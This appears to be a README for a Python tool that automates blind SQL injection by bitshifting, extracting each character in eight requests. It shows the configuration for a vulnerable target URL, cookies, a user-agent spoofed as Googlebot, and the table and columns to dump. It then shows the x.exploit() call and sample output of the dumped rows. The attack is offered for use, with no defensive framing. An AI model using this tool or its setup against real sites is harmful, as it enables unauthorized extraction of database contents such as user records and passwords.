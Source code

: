 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
